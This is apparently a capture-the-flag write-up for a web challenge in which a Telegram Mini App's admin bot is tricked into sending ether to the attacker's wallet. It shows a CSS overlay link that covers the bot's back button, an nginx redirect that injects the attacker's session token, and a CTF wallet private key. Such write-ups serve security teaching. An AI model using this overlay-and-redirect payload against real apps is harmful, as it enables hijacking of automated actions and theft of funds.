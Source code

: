 # Tonyallet

- Category: Web / XSS
- Date: September 2024
- Difficulty: medium

## Description
We have a [Telegram Mini App](https://core.telegram.org/bots/webapps) hosted on `https://tonyallet-us.ctf.so` that has functionality to create posts and retrieve them. Posts can be reported from `https://tonyallet-us-report.ctf.so/` by submitting their ID which the admin bot visits later. Our objective is to exploit a XSS to replace the admin bot's displayed wallet address with ours so that it later sends funds to us instead of their address.

![mini app](assets/miniapp.png?raw=true "Telegram Mini App")

### Task
The [provided document](./assets/Tonyallet.pdf) explains that we need our wallet balance to increase in order to get the flag.

By inspecting network requests we can see that when the app fetches `https://tonyallet-us.ctf.so/wallet` with your authorization header, the JSON response looks like this:
```json
{
  "address": "0x82B560E978345544e2e161E4cB09b3fa4c846D65",
  "privateKey": "0xa322cb5832178f77abe8e5906733b062e3f2b43be21b1bfb7f1f7b8ca6fd068f",
  "balance": "0.0",
  "flag": "NO FLAG FOR U"
}
```

### Looking at the bot's code
Let's start backwards by immediately looking at the [provided selenium code](./code/bot.py) to understand precisely what the admin bot does after we report a post. The bot does not use telegram but instead visits `tonyallet-us.ctf.so` directly.

```py
wallet_address = selenium_obj.find_element(By.ID, "walletAddress").text
if not re.match(r"^0x[a-fA-F0-9]{40}$", wallet_address):
  return "Failed to get wallet address"
# send 0.1 ether to the wallet address
os.system(f"cast send --private-key {os.getenv('PRIVATE_KEY')} {wallet_address} --value 0.1ether --rpc-url {os.getenv('RPC_URL')}")
```

This code in the end is of interest because it is sending tokens to `wallet_address` which is obtained from the content of an HTML tag with id `walletAddress`. The HTML page in question is `selenium_obj.get(f"{host}/#tgWebAppData=" + open("tgWebApp.txt").read())` where host is `host = f"https://tonyallet-us.ctf.so"`.

### Looking at the mini app's source

Let's have a look at it's [source](./assets/index.html). The page contains a JavaScript function called [getWallet](./assets/index.html#L127) which is called when it loads.

```javascript
async function getWallet(bypass=false) {
  let localAddress = localStorage.getItem("walletAddress")
  if (localAddress && !bypass) {
    document.getElementById('walletAddress').textContent = localAddress;
    return
  }
	...
```

If we could execute custom JavaScript code on the admin's client-side to set the local storage of key `walletAddress` to ours it would be great but upon further investigation it did not appear to be possible to inject custom JavaScript code. Here it is important to note that localStorage keys are unique to each website. It is also important to note that selenium [starts with a fresh local storage](https://stackoverflow.com/questions/48841127/localstorage-in-selenium-webdriver) each time it runs.

Therefore, we could assume that the first time this page is opened by the bot the `localAddress` is null and so the function would continue executing this code:

```javascript
const response = await fetch(`/wallet`, {
  method: 'GET',
  headers: {
    'Authorization': tg.initData
  }
});
const data = await response.json();
document.getElementById('walletAddress').textContent = data.address;
localStorage.setItem("walletAddress", data.address);
```

`tg.initData` can be considered as a unique token for a telegram account and `https://tonyallet-us.ctf.so/wallet` uses it to send you your corresponding wallet address. By looking at the [bot's code](./code/bot.py#L41) and the [telegram script included in the HTML file](https://telegram.org/js/telegram-web-app.js) it appears that `tg.initData` can be controlled via a URL hashtag parameter called `tgWebAppData`. This means that if could get the bot to browse `https://tonyallet-us.ctf.so/#tgWebAppData=<our tg.initData token>`, then when the bot executes the above code it will receive our address and set it to it's localStorage.

## Exploit

The app is [vulnerable to XSS](./assets/index.html#L177) on `/` but only if you click retrieve post and the bot doesn't do this. Instead, the bot visits `/post?id=<our id>` which returns [this HTML](./assets/post.html). Since that page uses [DOMPurify.sanitize](./assets/post.html#L111) it is theoretically impossible to directly inject any JavaScript there. We are, however, free to put several HTML tags with any kind of CSS. Notice that the bot [clicks](./code/bot.py#L35) at coordinates `(screen width / 2, 10)` in order to hit the back button. Since our goal is to get the bot to browse `https://tonyallet-us.ctf.so/#tgWebAppData=<our tg.initData token>`, we could use this payload:

```html
<div style="position: fixed; top: 0; left: 0; width: 100%; z-index: 1000; font-size: 20px; line-height: 1;">
<a href="https://tonyallet-us.ctf.so/#tgWebAppData=<our token>" style="display: block; margin-top: -10px;">
gogogogogogogogogogogogogogogogogogogogogogogogogogogogogogogogogogo
</a>
</div>
```

This covers the back button with our link that redirects to the URL we specify. [https://webhook.site/](https://webhook.site/) was useful for testing that the bot clicks on it.
![mini app](assets/posts.png?raw=true "Malicious vs normal post")

However, this did not work and you can see why by clicking on our malicious button locally (nothing happens). Since we are redirecting to a hashtag parameter on the same domain, the browser (tested on Firefox) does not reload the page because hashtag parameters are only relevant client-side. In order to trigger a reload, we must redirect to an external page we control which in turn redirects to `https://tonyallet-us.ctf.so/#tgWebAppData=<our tg.initData token>`. A service like [https://tinyurl.com/](https://tinyurl.com/) can likely be used but for this solution a private server with nginx was configured.

```
server {
  listen 443 ssl;
  server_name <redacted>;
	...

  location / {
    return 301 https://tonyallet-us.ctf.so/#tgWebAppData=query_id...;
  }
}
```

`href=` in the HTML payload was changed to point to the server using it's domain. In this way, our server tells browsers via 301 status code to redirect to the `tonyallet-us.ctf.so` URL with our token. It was required to URL encode the token.

After submitting the updated payload, our balance increases and we get the flag from `GET /wallet`.

```json
{
  "address": "0x82B560E978345544e2e161E4cB09b3fa4c846D65",
  "privateKey": "0xa322cb5832178f77abe8e5906733b062e3f2b43be21b1bfb7f1f7b8ca6fd068f",
  "balance": "0.1",
  "flag": "blaz{TGAPP_CAN_BE_HACKED_REALLY_BAD_:P}"
}
```

### A simpler alternative
Instead of setting up a redirection, it was possible to instead add any GET parameter to the URL. This would have been enough to cause a browser to reload the page. The `<a>` tag in the payload would have looked like this:

```html
<a href="https://<our-controlled-server>" style="display: block; margin-top: -10px;">
```

```html
<a href="https://tonyallet-us.ctf.so/?someparam=123#tgWebAppData=<our token>" style="display: block; margin-top: -10px;">
```

